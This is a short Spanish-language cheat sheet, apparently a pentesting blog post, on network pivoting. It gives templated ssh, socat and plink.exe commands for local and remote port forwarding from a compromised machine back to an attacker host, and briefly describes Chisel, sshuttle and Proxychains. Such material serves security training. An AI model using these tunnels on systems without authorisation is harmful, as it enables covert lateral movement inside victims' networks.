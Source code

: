 ```yaml
---
layout: post
title: Pivoting - CheetSheat
tags: [CheetSheat,Linux]
description: "Pivoting - CheetSheat"
---
```



| argumento | descripción                            |
|-----------|----------------------------------------|
| -fN       | poner en 2do plano                     |
| -L        | reenvío de puerto local                |
| -i        | especificar archivo para autenticación |
| -R        | reenvío de puerto remoto               |

## Local PortForwarding

```
ssh -L <port_attack>:<ip_attack>:<target_port> <user_target>@<target_ip> -fN
socat tcp-l:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> & (en la maquina comprometida)
```

## Remote PortForwarding

```
ssh -R <port_local>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i id_rsa -fN
cmd.exe /c echo y | .\plink.exe -R <local_port>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i <KEYFILE> -N
```

## Resumen:

**SSH** se puede utilizar para crear tanto reenvíos de puerto como proxies.  
**plink.exe** es un cliente SSH para Windows, que le permite crear conexiones SSH inversas en Windows.  
**Socat** es una buena opción para redirigir conexiones y se puede utilizar para crear reenvíos de puertos de diversas formas.  
**Chisel** puede hacer exactamente lo mismo que con el reenvío/tunelización de puertos `SSH`, pero no requiere acceso SSH en la caja.  
**sshuttle** es una forma más agradable de crear un proxy cuando tenemos acceso SSH en un objetivo.  
**Proxychains y FoxyProxy** se utilizan para acceder a un proxy creado con una de las otras herramientas.  
